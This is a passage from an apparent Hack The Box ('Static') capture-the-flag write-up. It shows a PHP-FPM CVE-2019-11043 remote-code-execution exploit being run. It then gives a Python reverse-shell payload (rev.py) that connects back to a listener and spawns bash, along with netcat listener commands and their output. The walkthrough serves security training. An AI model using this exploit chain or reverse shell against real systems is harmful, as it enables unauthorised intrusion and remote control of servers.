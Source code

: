 As we can see It's powered by ```PHP-FPM/7.1``` , We know about ```CVE-2019-11043``` related to ```PHP-FPM```, Let's exploit it using [https://github.com/theMiddleBlue/CVE-2019-11043](https://github.com/theMiddleBlue/CVE-2019-11043):

```console
┌─[evyatar@parrot]─[/hackthebox/Static]
└──╼ $ git clone https://github.com/theMiddleBlue/CVE-2019-11043.git
┌─[evyatar@parrot]─[/hackthebox/Static/CVE-2019-11043]
└──╼ $ python3 exploit.py --url http://localhost:8888/index.php
[*] QSL candidate: 1754, 1759, 1764

[*] Target seems vulnerable (QSL:1754/HVL:219): PHPSESSID=fcb5057679c9e6fac09fe95876979e63; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost:8888/index.php?a=bin/ls+/

```

Now we can get RCE, We want to get a reverse shell, to do so we need to listen from the target machine and not from our host.

Let's upload to the target machine the ```exploit.py``` script and [nc](https://github.com/H74N/netcat-binaries/blob/master/nc) using ```scp```:
```console
┌─[evyatar@parrot]─[/hackthebox/Static]
└──╼ $ scp -P 2222 -i ../id_rsawww nc www-data@10.10.10.246:/home/www-data/exp/nc
nc                                                          100%  762KB  51.0KB/s   00:14
┌─[evyatar@parrot]─[/hackthebox/Static]
└──╼ $ scp -P 2222 -i ../id_rsawww exploit.py www-data@10.10.10.246:/home/www-data/exp/exploit.py
exploit.py                                                  100% 4280    13.5KB/s   00:00
```

And let's upload also the following script ```rev.py```:
```console
import requests
 
rev = '/usr/bin/python3.6 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
 
req = requests.get("http://192.168.254.3/index.php?a="+rev)
print(req.text)

```

Now, Let's open another SSH and listen to port ```9001```:
```console
ww-data@web:~/exp$ ./nc -lvp 9001
listening on [any] 9001 ...

```

And of the first SSH let's run the python script ```rev.py```:
```console
python3 rev.py 
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>

```
